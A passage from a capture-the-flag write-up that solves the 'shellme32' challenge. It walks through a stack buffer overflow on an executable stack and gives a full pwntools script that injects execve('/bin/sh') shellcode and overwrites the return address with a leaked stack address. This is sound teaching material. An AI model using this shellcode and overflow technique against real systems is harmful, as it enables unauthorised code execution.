 ```python
p.sendline(payload)

p.interactive()
```

---

## shellme32 - 462 pts

On running the program, we are given an address and we have to provide some input. On analysing it using GDB, and using `vmmap`, we find that the adress given to us is that of the stack and the stack is read, write and executable. 

{% include image.liquid url="/assets/img/posts_images/tuctf/shellme32_1.png" %}

We use [shell-storm](http://shell-storm.org/shellcode/files/shellcode-811.php) to get the shellcode. First we get the offset of the crash like before. In the script below, we use the shellcode, pad it with 'A's and then provide the address to write to, i.e. the adress provided to us.

```python
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
len_shell_code = 28

from pwn import *
# context.log_level = 'debug'
p = process("./shellme32")

offset = 40


p.recvuntil('?\n')
addr = int(p.recvline().strip(), 16)
p.recvuntil('> ')

log.info('Stack Address: ' + str(hex(addr)))

payload = shellcode
payload += "A"*(offset - len_shell_code)

payload += p32(addr)

print(len(shellcode))
p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(payload)

p.interactive()
```

---

